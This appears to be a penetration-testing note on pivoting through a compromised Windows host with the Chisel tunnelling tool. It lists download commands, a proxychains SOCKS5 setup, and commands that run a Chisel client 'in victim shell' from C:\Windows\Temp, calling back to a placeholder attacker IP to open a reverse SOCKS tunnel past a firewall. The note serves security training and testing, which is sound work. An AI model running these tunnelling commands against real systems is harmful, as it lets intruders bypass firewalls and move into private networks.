 
Chisel is the preferred method of port forwarding through a windows host machine. 
- Download chisel from: https://github.com/jpillora/chisel

Below is streamlined code to download and setup Chisel for use:

```shell
# Download and clean-up the Linux version of Chisel
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
mv chisel_1.8.1_linux_amd64 chisel_1.8.1

# Download and clean-up the Windows version of Chisel
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_windows_amd64.gz
gunzip chisel_1.8.1_windows_amd64.gz
mv chisel_1.8.1_windows_amd64 chisel_1.8.1.exe
```

On our attacker, modify the last line of "/etc/proxychains4.conf" to utilize SOCKS5.
```shell
sudo nano /etc/proxychains4.conf
```

![[Pasted image 20230306165438.png]]

With the pre-requisites taken care of, we just need to move the Chisel Windows executable to our victim to establish a tunnel.

```shell
# On Attacker Box
./chisel_1.8.1 server -p <port> --reverse
# In Victim Shell
C:\Windows\Temp\chisel_1.8.1.exe client <attacker_ip>:<port> R:socks
```

This will start a listener on our attacker using an arbitrary port, but once the connection is made by the Chisel client on the compromised Windows host, we can tunnel commands through the port 1080 SOCKS5 proxy using proxychains.

Shitty Diagram Below:
```
								| FW |           <client_02>
<attacker_ip>:<port> <---> <client_01>:<port>    <client_03>
								| FW |           <client_04>
```
